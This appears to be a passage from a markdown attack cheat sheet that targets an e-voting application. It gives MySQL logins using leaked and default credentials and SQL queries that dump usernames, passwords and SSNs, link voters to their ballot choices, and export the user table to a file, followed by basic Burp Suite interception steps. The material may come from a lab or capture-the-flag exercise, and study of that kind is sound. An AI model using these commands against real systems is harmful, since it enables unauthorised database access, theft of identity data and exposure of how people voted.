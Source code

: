 
## 🗄️ Database Extraction

### Direct MySQL Access
```bash
# Try these credentials found in source
mysql -h localhost -P 3306 -u root -proot_password evoting
mysql -h localhost -P 3306 -u evoting_user -pevoting123 evoting

# Common default credentials
mysql -h localhost -u root -p
(empty password)

mysql -h localhost -u root -proot
mysql -h localhost -u root -padmin
```

### Useful SQL Queries
```sql
-- Show all databases
SHOW DATABASES;

-- Show all tables
SHOW TABLES;

-- Dump all users
SELECT * FROM person_info;

-- Get passwords
SELECT Username, Password, SSN FROM person_info;

-- Get voting data
SELECT voter.V_name, ballot.President_Selection, ballot.Date_of_Vote 
FROM voter JOIN ballot ON voter.V_id = ballot.V_id;

-- Count votes by candidate
SELECT President_Selection, COUNT(*) as votes 
FROM ballot 
GROUP BY President_Selection;

-- Export to file
SELECT * FROM person_info INTO OUTFILE '/tmp/users.csv';
```

---

## 🔧 Tool Commands

### Burp Suite
```
1. Start Burp
2. Set browser proxy to 127.0.0.1:8080
3. Navigate to target site
4. Intercept requests
5. Modify parameters
6. Forward/Drop requests
```
